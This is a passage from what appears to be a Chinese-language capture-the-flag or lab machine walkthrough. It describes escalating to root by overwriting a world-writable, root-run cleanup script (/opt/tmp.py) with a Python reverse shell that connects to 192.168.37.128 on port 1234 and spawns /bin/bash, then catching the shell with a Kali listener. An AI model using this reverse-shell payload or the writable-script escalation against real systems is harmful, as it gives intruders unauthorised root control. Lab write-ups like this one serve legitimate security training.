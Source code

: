 这个脚本定期删除临时目录。

查看一下权限:

```bash
$ ls -l tmp.py
ls -l tmp.py
-rwxrwxrwx 1 root root 216 Mar 17 07:41 tmp.py
```

然后编写一下：

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.37.128",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > /opt/tmp.py
```

kali设置一个监听，大概一两分钟就会弹一个`root shell`过来：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403171944571.png" alt="image-20240317194320272" style="zoom:50%;" />

拿下这个靶机！
